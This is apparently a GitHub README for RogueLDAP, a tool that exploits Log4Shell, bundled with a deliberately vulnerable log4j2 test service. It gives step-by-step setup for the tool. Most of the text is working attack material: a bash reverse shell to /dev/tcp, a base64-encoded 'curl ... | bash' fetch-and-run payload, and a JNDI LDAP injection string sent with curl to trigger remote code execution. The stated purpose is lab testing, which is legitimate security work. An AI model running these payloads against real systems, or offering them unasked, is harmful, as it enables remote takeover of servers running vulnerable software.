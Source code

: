 ## RogueLDAP

------------

This is a lightweight ```RogueLDAP``` server which is a modified version of the  [JNDIExploit-1](https://github.com/gysf666/JNDIExploit-1).

### clone the repo 

```
git clone https://github.com/twelvesec/RogueLDAP.git
```

### Build with Maven

In order to build the ```RogueLDAP``` server run the following commands 

```
cd RogueLDAP/RogueLDAP
mvn clean package
```

## logging-log4j2

------------

The ```logging-log4j2``` is a vulnerable dummy web service which only logs a user supplied string value. This application created for testing purposes in order to test the ```Log4Shell``` vulnerability using the ```RogueLDAP``` server.  

### Build with Docker

From cli run the following command to build the ```logging-log4j2``` application 

```
cd RogueLDAP/logging-log4j2
mvn clean install
docker build -f Dockerfile -t logging-log4j2-vuln .
```

### Build with Maven

```
cd RogueLDAP/logging-log4j2
mvn clean package  
```

## Setting up the Environment and run the Exploit

In order to setup the environment and run the exploit the following steps should be followed 

1. Open a new terminal window and run the ```RogueLDAP``` server at the attacking machine

```
cd RogueLDAP/RogueLDAP/target
java -jar RogueLDAP-1.4-SNAPSHOT.jar -i <YOUR-IP-ADDRESS>
```

2. Open a new terminal window and run the vulnerable ```logging-log4j2``` application at the target machine


#### Run with Docker 

```
cd RogueLDAP/RogueLDAP
docker run -p 8080:8080 logging-log4j2-vuln
```

#### Run with Java 

```
cd RogueLDAP/RogueLDAP/target
java -Dlog4j2.contextSelector=org.apache.logging.log4j.core.async.AsyncLoggerContextSelector -jar logging-log4j2-1.0.jar

```

3. create a folder called shells at a preffered location at the attacking machine

```
mkdir shells 
cd shells 
```

4. Inside the shells folder create an ```index.html``` file 

```
touch index.html 
```

5. Inside the ```index.html``` file put the following payload and change the IP address to the one that suits to your environment

``` 
/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.1.6/8082 0>&1" &
``` 

6. convert the payload ```$(curl 192.168.1.6:8085|bash)``` in base64 format as seen below (change the IP address with the one that suits to your environment) 

```
JChjdXJsIDE5Mi4xNjguMS42OjgwODV8YmFzaCk=
```

7. In order to perform a JNDI LDAP query the following payload will be used (change the IP address with the one that suits to your environment) 

```
${jndi:ldap://192.168.1.6:6389/JChjdXJsIDE5Mi4xNjguMS42OjgwODV8YmFzaCk=}
``` 

7. Now open a new terminal window and inside the shells directory run the following command in order to start a python simple HTTP server

```
cd shells 
python3 -m http.server 8085
```

8. Now that the ```logging-log4j2``` application runs, open a new terminal window and run the ```curl``` command line tool in order to send the jndi payload as shown below 
(change the IP address with the one that suits to your environment) 

```
curl -s -X POST http://192.168.1.6:8080/lol -H "Content-type:application/json" -d "{\"vuln\":\"\${jndi:ldap://192.168.1.6:6389/JChjdXJsIDE5Mi4xNjguMS42OjgwODV8YmFzaCk=}\"}"
```
